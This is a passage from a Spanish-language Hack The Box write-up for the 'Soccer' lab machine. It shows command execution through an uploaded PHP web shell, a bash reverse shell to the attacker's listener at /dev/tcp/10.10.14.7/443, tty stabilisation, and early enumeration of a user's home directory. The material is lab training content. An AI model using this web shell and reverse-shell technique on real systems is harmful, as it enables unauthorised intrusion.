 ![RCE]({{ 'assets/img/writeups/Soccer/rce.png' | relative_url }}){: .center-image }

Cada pocos minutos el archivo subido se elimina. Tendrás que subirlo otra vez y ya está.  
Comprobaré que tengo conectividad a mi máquina desde el rce, en la url:
```
http://soccer.htb/tiny/uploads/pwned.php?cmd=ping -c 1 10.10.14.7
```
Y estando en escucha recibo el ping:
```sh
tcpdump -i tun0 icmp -n

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:16:34.865139 IP 10.10.11.194 > 10.10.14.7: ICMP echo request, id 2, seq 1, length 64
08:16:34.865168 IP 10.10.14.7 > 10.10.11.194: ICMP echo reply, id 2, seq 1, length 64
```
Me lanzaré una reverse, en mi consola me pongo en escucha por el puerto 443 por ejemplo; `nc -nlvp 443` y ahora desde la url: 
```
http://soccer.htb/tiny/uploads/pwned.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'
```
Y recibo la consola:
```sh
> nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.194] 55550
bash: cannot set terminal process group (1046): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$ whoami
whoami
www-data
```
Toca hacer el tratamiento de la tty:
```sh
www-data@soccer:~/html/tiny/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@soccer:~/html/tiny/uploads$ ^Z
zsh: suspended  nc -nlvp 443
```
Sale a mi terminal local:
```sh
stty raw -echo; fg
    reset xterm
```
Volvemos a terminal objetivo:
```sh
www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$ export SHELL=bash
www-data@soccer:~/html/tiny/uploads$ stty rows 38 columns 184
# Cada ordenador tendrá su número de filas y columnas para averiguarlo; stty size
```
```sh
www-data@soccer:/$ cd /home
www-data@soccer:/home$ ls
player
www-data@soccer:/home$ cd player
www-data@soccer:/home/player$ ls -la
total 28
drwxr-xr-x 3 player player 4096 Nov 28  2022 .
drwxr-xr-x 3 root   root   4096 Nov 17  2022 ..
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
drwx------ 2 player player 4096 Nov 17  2022 .cache
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
```